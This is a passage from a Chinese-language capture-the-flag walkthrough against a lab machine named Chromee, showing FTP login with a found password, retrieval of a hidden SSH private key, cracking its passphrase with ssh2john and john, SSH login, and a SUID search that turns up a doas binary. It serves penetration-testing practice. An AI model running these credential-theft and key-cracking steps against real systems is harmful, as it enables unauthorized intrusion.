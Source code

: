 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ftp adriana@192.168.205.138 -p 23333
Password:
230 Login successful.
...
ftp> ls -la
...
-rw-r--r--    1 0        0            3414 Mar 09  2025 ...
-rw-r--r--    1 0        0             495 Mar 07  2025 dic.txt
...
```

发现一个名为 `...` 的可疑文件。使用 `wget` 将其下载到本地，经过查看`...`是ssh私钥。

```bash
┌──(kali㉿kali)-[/tmp]
└─$ wget -r ftp://adriana:Lily2020@192.168.205.138:23333/
...
```

## 3.2 破解私钥密码

将下载的文件重命名为 `id_rsa` 并设置正确权限，然后使用 `ssh2john` 和 `john` 对私钥的密码进行破解。

```bash
┌──(kali㉿kali)-[/tmp/192.168.205.138:23333]
└─$ mv ... id_rsa
└─$ chmod 600 id_rsa
└─$ ssh2john id_rsa > hash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
cassandra        (id_rsa)
...
Session completed.
```

成功破解私钥的密码为 `cassandra`。

## 3.3 登录SSH并枚举

再次登录FTP，通过目录遍历在 `/home` 目录下发现了 `follower` 和 `softly` 两个用户。尝试使用破解的私钥以 `follower` 用户身份登录 SSH。

```bash
┌──(kali㉿kali)-[/tmp/192.168.205.138:23333]
└─$ ssh follower@192.168.205.138 -i id_rsa
Enter passphrase for key 'id_rsa':
follower@Chromee:~$ id
uid=1000(follower) gid=1000(follower) grupos=1000(follower)
```

成功登录。检查 `sudo` 权限失败后，查找具有 SUID 权限的二进制文件，发现了一个非标准的 `doas` 程序。

```bash
follower@Chromee:~$ find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
...
-rwsr-xr-x 1 root root 42352 mar  7  2025 /usr/local/bin/doas
...
```
